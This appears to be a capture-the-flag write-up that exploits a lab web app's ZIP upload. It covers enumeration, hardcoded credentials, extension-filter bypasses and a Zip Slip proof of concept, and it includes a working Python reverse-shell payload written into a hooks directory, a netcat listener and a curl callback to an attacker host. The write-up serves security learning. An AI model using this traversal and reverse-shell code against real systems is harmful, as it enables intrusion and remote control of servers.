









Assess the web application's upload functionality to determine whether it can be abused to achieve remote code execution.
The target was first enumerated using Nmap.
nmap -Pn -sC -sV 10.130.190.24
nmap -Pn -sC -sV 10.130.190.24
| Port | Service |
|---|---|
| 22/tcp | SSH |
| 5000/tcp | HTTP |
The web application was available at:
http://10.130.190.24:5000
http://10.130.190.24:5000Viewing the page source of the login page revealed hardcoded credentials.
Username: concierge Password: StayNoticed2024!
Username: concierge
Password: StayNoticed2024!After authenticating successfully, an upload portal became available.

The application accepted ZIP archives only.
Documentation shown by the application indicated that every uploaded shell package must contain a manifest named shell.json.
Example:
{
"name": "test",
"assets": []
}{
"name": "test",
"assets": []
}A minimal valid archive was created.
printf '%s\n' '{"name":"test","assets":[]}' > shell.json
zip baseline.zip shell.jsonprintf '%s\n' '{"name":"test","assets":[]}' > shell.json
zip baseline.zip shell.jsonAfter uploading, the manifest became accessible through:
http://10.130.190.24:5000/shells/<id>/shell.json
http://10.130.190.24:5000/shells/<id>/shell.json

Several attempts were made to upload executable files.
Included:
shell.json
shell.php
Result:
Modified browser-side validation to bypass the file extension restriction.
Result:
This indicated that validation was also occurring server-side.
Tested alternative PHP extensions.
Examples:
.phtml
.php5
Result:
Renamed the PHP payload to an allowed extension.
Example:
shell.php ↓ shell.png
shell.php
↓
shell.pngThe archive now contained:
shell.json
shell.png
Result:
This demonstrated that the server only verified the filename extension rather than inspecting file contents.

The application documentation stated that only the following asset types were permitted.
png jpg gif svg css json
png
jpg
gif
svg
css
jsonFrom testing it became clear that the upload process only checked the file extension listed inside the ZIP archive.
At this stage two possible attack paths were identified:
Abuse SVG files for code execution if rendered insecurely.
Test for Zip Slip during archive extraction.
The documentation also referenced automation hooks.
Examples observed:
"hooks": []
"hooks": []"hooks": ["test"]
"hooks": ["test"]"hooks": [{}]"hooks": [{}]Additional payloads were tested.
"hooks": ["id"]
"hooks": ["id"]"hooks": ["whoami"]
"hooks": ["whoami"]{
"name": "callback-test",
"assets": [],
"hooks": [
"curl http://ATTACKER-IP:8000/"
]
}{
"name": "callback-test",
"assets": [],
"hooks": [
"curl http://ATTACKER-IP:8000/"
]
}No immediate code execution was observed from these tests.

The next step was determining whether uploaded ZIP archives were extracted safely.
A Zip Slip vulnerability occurs when archive entries contain directory traversal sequences such as:
../../
../../and the application extracts them without validating the final destination path.
A proof-of-concept archive was created.
import json
import zipfile
manifest = {
"name": "zipslip-proof",
"assets": []
}
with zipfile.ZipFile("zipslip-proof.zip", "w") as archive:
archive.writestr("shell.json", json.dumps(manifest))
archive.writestr(
"../../static/zipslip-proof.css",
"ZIP_SLIP_CONFIRMED\n"
)
print("Created zipslip-proof.zip")import json
import zipfile
manifest = {
"name": "zipslip-proof",
"assets": []
}
with zipfile.ZipFile("zipslip-proof.zip", "w") as archive:
archive.writestr("shell.json", json.dumps(manifest))
archive.writestr(
"../../static/zipslip-proof.css",
"ZIP_SLIP_CONFIRMED\n"
)
print("Created zipslip-proof.zip")Archive contents:
unzip -l zipslip-proof.zip
unzip -l zipslip-proof.zipArchive: zipslip-proof.zip shell.json ../../static/zipslip-proof.css
Archive: zipslip-proof.zip
shell.json
../../static/zipslip-proof.cssAfter uploading the archive, the file was successfully retrieved.
curl http://10.130.181.205:5000/static/zipslip-proof.css
curl http://10.130.181.205:5000/static/zipslip-proof.cssResponse:
ZIP_SLIP_CONFIRMED
ZIP_SLIP_CONFIRMEDThis confirmed that directory traversal during archive extraction was possible.

Based on the successful traversal, the application appeared to have a directory structure similar to:
application-root/ ├── static/ ├── shells/ └── hooks/
application-root/
├── static/
├── shells/
└── hooks/The extraction process did not sanitize archive paths, allowing files to be written outside the intended upload directory.
Since the application referenced a hooks/ directory for automation tasks, the next objective was to determine whether a malicious hook could be written into that location using Zip Slip.
A payload archive was generated that placed a Python callback into the hooks directory.
import json
import zipfile
LHOST = "10.130.97.35"
LPORT = 4444
manifest = {
"name": "shoreline-update",
"assets": []
}
callback = f'''
import os
import pty
import socket
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(({LHOST!r}, {LPORT}))
for descriptor in (0, 1, 2):
os.dup2(sock.fileno(), descriptor)
pty.spawn("/bin/bash")
'''
with zipfile.ZipFile("reverse-shell.zip", "w") as archive:
archive.writestr("shell.json", json.dumps(manifest))
archive.writestr("../../hooks/callback.py", callback)
print("Created reverse-shell.zip")import json
import zipfile
LHOST = "10.130.97.35"
LPORT = 4444
manifest = {
"name": "shoreline-update",
"assets": []
}
callback = f'''
import os
import pty
import socket
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(({LHOST!r}, {LPORT}))
for descriptor in (0, 1, 2):
os.dup2(sock.fileno(), descriptor)
pty.spawn("/bin/bash")
'''
with zipfile.ZipFile("reverse-shell.zip", "w") as archive:
archive.writestr("shell.json", json.dumps(manifest))
archive.writestr("../../hooks/callback.py", callback)
print("Created reverse-shell.zip")The payload was generated using:
python3 build_shell.py
python3 build_shell.pyArchive verification:
unzip -l reverse-shell.zip
unzip -l reverse-shell.zipListener:
nc -lvnp 4444
nc -lvnp 4444The objective was to determine whether the application's automation mechanism would subsequently execute the injected hook, resulting in a reverse shell connection.


Navigated and listed the directories at roots's home found the flag.txt.
The application enforced ZIP uploads.
Each archive required a valid shell.json manifest.
Asset validation relied only on file extensions.
PHP payloads were rejected despite client-side bypass attempts.
Renaming a PHP payload to an allowed extension bypassed the extension filter but did not result in code execution.
A Zip Slip vulnerability was successfully confirmed by writing files outside the intended extraction directory.
The confirmed traversal opened a potential path to achieving remote code execution through the application's automation hook mechanism.
../, absolute paths, or symbolic links before extraction.